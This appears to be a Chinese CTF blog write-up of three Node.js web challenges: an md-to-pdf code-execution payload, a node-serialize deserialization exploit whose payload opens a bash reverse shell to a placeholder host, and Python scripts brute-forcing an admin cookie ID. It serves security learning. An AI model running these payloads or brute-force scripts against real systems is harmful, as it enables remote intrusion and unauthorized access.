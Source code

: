 ```yaml
---
layout: post
title: js测验
categories: [blog ]
tags: [JavaScript,]
description: "测验"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: cxkjy.github.io
 
---
```


`测试`

![](/img/swirl/11.jpg)

## web1

题目是直接给出附件的，大概的功能就是一个md转pdf

网上搜了一下确实有漏洞

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![image-20230928091608629](..\img\final\image-20230928091608629.png)

![image-20230928092224117](..\img\final\image-20230928092224117.png)

可是一直报错。。不理解

```java
{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"whoami\"))\n---RCE"}
```

## web2

一个js反序列化的题目

```java
var express = require('express');//这个就一个js文件
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var bodyParser = require('body-parser');
var app = express();
var path = require('path');
app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.set('view engine', 'ejs');

app.get('/', (req,res) => {
	res.render('home.ejs');//渲染home.ejs
});

app.post('/', (req,res) => {
	res.render('loggedin.ejs')
});

app.get('/guest', function(req, res) {
   res.render('guest.ejs');
});

app.post('/guest', function(req, res) {
   if (req.cookies.guest) {//提取guest中的cookie
   	var str = new Buffer(req.cookies.guest, 'base64').toString();//base64加密
   	var obj = serialize.unserialize(str);//这里反序列化没太看懂
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username //输入username
	 var country = req.body.country  //输入country
 	 var city = req.body.city   // 输入city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
app.listen(process.env.PORT || 7777);
console.log("Listening on port 7777...");
```

很明显看出来就是一个serialize的问题

https://zhuanlan.zhihu.com/p/25581847

https://cloud.tencent.com/developer/article/1374840

payload

```
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('bash -c \"bash -i >&
/dev/tcp/4vps/4444 0>&1\"',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}  
```

## web3

```javascript
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")// 猜测漏洞是ejs模板的问题，然后flag再 env中
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [//这里看着像定义用户信息之类的
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "****",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")//这里获得的就是当前的对象
    //需要我们传一个userData名字的cookie
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {//这是判断cookies中userData字段 继续userId
        const {userID, username} = req.cookies.userData//传送一个json

        if(req.cookies.userData.userID === admin.userID) //这里因为本来的userid就是不可见的
            res.render("home.ejs", {username: username, flag: process.env.FLAG})//这里如果满足才会出现flag
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```

流程非常简单

其实就是判断输入的cookie中的	userid是否和 管理员中的userid值相等，如果相等就会返回flag

看了看有没有原型链污染的漏洞，最后发现没有，所以尝试爆破userid



`一开始自己写的脚本` (不忍直视)

```python
import requests
a="0123456789"
for i in a :
    for j in a:
        for n in a:
            for m in a:

                 string={"username":"JYcxk","userID":i+j+n+m}
                 url="http://43.129.87.71:10003/"
                 res=requests.get(url=url,json=string)
                 if "{" in res.text:
                  print(res.text)
```

参考了以下✌的发现，需要先登陆看下cookie（源码给出了一个账号用来登陆）

```python
import requests
url="http://43.129.87.71:10003/"
for i  in range(100,1000):
    cookie={"userData":f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22kupatergent%22%7D"}
    res=requests.get(url,cookies=cookie)
    if 'flag{' in res.text:
        print(res.text)
        break
```

![image-20230928161455123](..\img\final\image-20230928161455123.png)

```
j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22kupatergent%22%7D
```

![image-20230928161903282](..\img\final\image-20230928161903282.png)

![](..\img\final\image-20231003135457779.png)

![image-20231003144021175](..\img\final\image-20231003144021175.png)